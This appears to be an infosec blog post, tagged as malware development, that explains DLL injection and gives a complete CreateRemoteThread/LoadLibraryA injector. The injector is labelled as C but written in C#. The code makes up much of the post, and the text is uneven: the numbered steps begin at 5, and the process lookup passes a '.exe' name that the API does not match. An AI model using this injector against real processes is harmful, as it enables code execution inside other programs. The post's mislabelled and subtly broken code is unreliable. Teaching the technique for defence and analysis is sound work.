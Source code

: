 ```yaml
---
layout: single
title: "Payload Unleashed: DLL Injection"
date: 2024-02-28
classes: wide
header:
  teaser: /assets/images/maldev.png
categories:
  - infosec
tags:
  - windows
  - malware
---
```


Dynamic Link Library (DLL) injection is a technique used in the realm of software development and cybersecurity. It involves inserting a DLL into the address space of a running process, thereby altering its behavior or extending its functionality. While primarily used for legitimate purposes such as debugging and system monitoring, DLL injection can also be leveraged for malicious activities like code execution and privilege escalation. 

In this blog post, we'll delve into the workings of DLL injection, its various types, and which nasty things can we do with it.

# Understanding DLL Injection

At its core, DLL injection is about injecting external code into the memory space of a running process. This allows the injected code to execute within the context of the target process, granting it access to resources and functionalities it wouldn't normally have. The injection process typically involves the following steps:

1. **Selection of Target Process**: The first step is to identify the process into which the DLL will be injected. This could be any running application or system process.
    
2. **Loading the DLL**: The DLL to be injected is loaded into the memory space of the target process. This can be achieved through various means, including using APIs like LoadLibrary or manually mapping the DLL into memory. We will address this techniques later. 
    
3. **Injection**: Once the DLL is loaded into the target process, the next step is to execute its code within that process. This is often achieved by creating a remote thread within the target process and directing it to execute a specific function within the injected DLL.

# Types of DLL Injection

DLL injection techniques can be classified into several categories, each with its own advantages and use cases. Some common types include:

1. **Load-time Injection**: In load-time injection, the DLL is loaded into the target process's address space at the time of process creation. This can be achieved by specifying the DLL in the process's import table or by modifying the process's environment variables to include the DLL's path.
    
2. **Run-time Injection**: Run-time injection involves injecting the DLL into a running process. This can be done using APIs like CreateRemoteThread or by directly modifying the target process's memory space to load the DLL.
    
3. **Reflective Injection**: Reflective injection is a more advanced technique where the injected DLL is capable of loading and executing itself without relying on the traditional Windows DLL loading mechanisms. This makes it harder to detect and trace compared to other injection methods. 
    
4. **Code Injection**: In code injection, rather than injecting an entire DLL, small snippets of code are injected into the target process. This code is then executed within the context of the process, allowing for more granular control over its behavior.

# Hands-On: Implementing DLL Injection in C

In this hands-on section, we'll explore how to implement DLL injection using C code. We'll focus on run-time injection, which involves injecting a DLL into a running process. For this demonstration, we'll create a simple console application to perform the injection.

## Overall process

 First, we need to open a handle to the target process to enable access to its memory space. Then, we reserve space within the target process to store the path of the DLL to be injected. Subsequently, the DLL path is written into this allocated memory space. Finally, a new thread is created within the target process, with its execution directed to a function that loads the DLL into the process's memory space. As a result, the injected DLL becomes part of the target process's execution, enabling it to modify the process's behavior or extend its functionality as desired. In the following section we will see which C functions do we need to perform such tasks. 

##  Kernel32.dll functions

- **OpenProcess()**: This function is used to obtain a handle to the target process, which is required for various operations such as reading and writing memory or creating remote threads within the target process.

- **GetModuleHandle()**: It retrieves a handle to the specified module within the calling process. In this case, it's used to get a handle to the kernel32.dll module to obtain the address of the LoadLibraryA function.

- **GetProcAddress()**: This function retrieves the address of an exported function or variable from a specified dynamic-link library (DLL) module. Here, it's used to get the address of the LoadLibraryA function within the kernel32.dll module.

- **VirtualAllocEx()**: It is used to reserve or commit a region of memory within the virtual address space of the target process. In this code, it allocates memory within the target process to store the path of the DLL to be injected.

- **WriteProcessMemory()**: This function writes data to an area of memory in a specified process. Here, it writes the path of the DLL to be injected into the allocated memory space within the target process.

- **CreateRemoteThread()**: This function creates a new thread in the address space of the target process, starting execution at the specified address. In this code, it creates a remote thread within the target process to execute the LoadLibraryA function, effectively loading the DLL into the target process.


```c
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace DLLInjectionDemo
{
    class Program
    {
        // Import necessary Win32 API functions
        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, int dwProcessId);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        static extern IntPtr GetModuleHandle(string lpModuleName);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        static void Main(string[] args)
        {
            string targetProcessName = "targetProcess.exe"; // Change this to the name of the target process

            // Find the target process by name
            Process[] processes = Process.GetProcessesByName(targetProcessName);
            if (processes.Length == 0)
            {
                Console.WriteLine("Target process not found.");
                return;
            }

            Process targetProcess = processes[0];

            // Get the handle of the target process
            IntPtr processHandle = OpenProcess(0x1F0FFF, false, targetProcess.Id);
            if (processHandle == IntPtr.Zero)
            {
                Console.WriteLine("Failed to open target process.");
                return;
            }

            // Load the DLL into memory
            string dllPath = "C:\\path\\to\\your\\injected.dll"; // Change this to the path of your DLL
            IntPtr loadLibraryAddr = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr allocMemAddr = VirtualAllocEx(processHandle, IntPtr.Zero, (uint)((dllPath.Length + 1) * Marshal.SizeOf(typeof(char))), 0x1000, 0x40);

            // Write the DLL path into the target process's memory
            UIntPtr bytesWritten;
            WriteProcessMemory(processHandle, allocMemAddr, System.Text.Encoding.Default.GetBytes(dllPath), (uint)((dllPath.Length + 1) * Marshal.SizeOf(typeof(char))), out bytesWritten);

            // Create a remote thread in the target process to load the DLL
            CreateRemoteThread(processHandle, IntPtr.Zero, 0, loadLibraryAddr, allocMemAddr, 0, IntPtr.Zero);

            Console.WriteLine("DLL injected successfully.");

            // Close the handle to the target process
            CloseHandle(processHandle);
        }

        // Import CloseHandle function
        [DllImport("kernel32.dll")]
        static extern bool CloseHandle(IntPtr hObject);
    }
}
```

Replace `"targetProcess.exe"` with the name of the target process you want to inject the DLL into, and `"C:\\path\\to\\your\\injected.dll"` with the path to the DLL you want to inject.

5. Build the project to ensure there are no compilation errors.
6. Run the console application. If the target process is found and the DLL injection is successful, you should see the message "DLL injected successfully."

Note: Make sure to test the DLL injection code responsibly and only on processes you have permission to interact with. Unauthorized DLL injection into system processes or third-party applications can lead to system instability or security vulnerabilities.

This hands-on example demonstrates the basics of DLL injection in C# using the Windows API functions. Further customization and error handling can be added based on specific requirements and scenarios.